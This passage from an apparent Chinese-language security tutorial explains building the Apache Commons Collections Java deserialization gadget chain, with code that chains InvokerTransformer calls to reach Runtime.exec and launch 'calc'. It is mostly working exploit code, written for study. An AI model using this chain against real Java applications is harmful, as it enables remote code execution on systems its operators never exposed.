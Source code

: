 

⼤致是这样的，但是⽆法运⾏，因为序列化必须继承Serializable接⼝，Runtime ⽆法序列化，并且setValue的值⽆法控制

还有就是遍历map中需要绕过两个if判断

问题多多，需要一个个解决



先解决Runtime问题

虽然Runtime⽆法序列化，但是`Runtime.class`是可以序列化的

```java
Class c = Runtime.class;
Method getRuntime = c.getMethod("getRuntime", null);
Runtime r = (Runtime) getRuntime.invoke(null, null);
Method exec = c.getMethod("exec", String.class);
exec.invoke(r,"calc");

```

```java
//将上面的代码转换一下


Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}).transform(Runtime.class);

Runtime r = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntimeMethod);

new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```

这里可以发现，前一段的代码的输出，是后一段代码的输入，递归调用

有一个方法可以实现它

![image-20230405112001531](https://raw.githubusercontent.com/todis21/image/main/202304051556062.png)

只要传入要调用的方法的数组就行

```java
Transformer[] transformers = new Transformer[]{
   new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
   new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
   new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

正常执行

![image-20230405112757891](https://raw.githubusercontent.com/todis21/image/main/202304051556399.png)
